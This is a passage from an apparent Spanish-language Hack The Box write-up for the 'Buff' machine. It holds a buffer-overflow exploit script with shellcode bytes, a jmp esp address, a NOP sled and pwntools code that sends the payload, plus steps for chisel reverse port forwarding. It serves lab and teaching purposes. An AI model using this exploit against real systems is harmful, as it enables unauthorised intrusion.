 ```python
shellcode += b"\x6a\x87\x66\xfa\xf9\x4c\x76\x75\xe2\xda\x21"
shellcode += b"\xd2\xd4\x12\xa7\xce\x4f\x8d\xd5\x12\x09\xf6"
shellcode += b"\x5d\xc9\xea\xf9\x5c\x9c\x57\xde\x4e\x58\x57"
shellcode += b"\x5a\x3a\x34\x0e\x34\x94\xf2\xf8\xf6\x4e\xad"
shellcode += b"\x57\x51\x06\x28\x94\x62\x50\x35\xf1\x14\xbc"
shellcode += b"\x84\xac\x60\xc3\x29\x39\x65\xbc\x57\xd9\x8a"
shellcode += b"\x17\xdc\xf9\x68\xbd\x29\x92\x34\x54\x90\xff"
shellcode += b"\xc6\x83\xd7\xf9\x44\x21\xa8\xfd\x55\x40\xad"
shellcode += b"\xba\xd1\xb9\xdf\xd3\xb7\xbd\x4c\xd3\x9d"

# jmp_esp: 69A5F0EF
payload = flat(junk, 0x69A5F0EF, asm('nop')*20, shellcode)

try:
    r = remote(host, port)
    print("[+] Enviando {} bytes!".format(len(payload)))
    r.send(payload)
    r.close()
except Exception as e:
    log.info(str(e))
```
{: file="bof.py" }

Hacemos un remote port forwarding con la consola de bajo nivel obtenida anteriormente.

1. Desde la máquina local ejecutamos chisel como server y en modo reverse.
2. Desde la Máquina Buff nos conectamos como cliente y realizamos un remote port forwarding del puerto 8888.

![](/images/HTB/Buff/89-chisel-tunnel-v2.png)

Y finalmente lanzamos nuestro exploit.
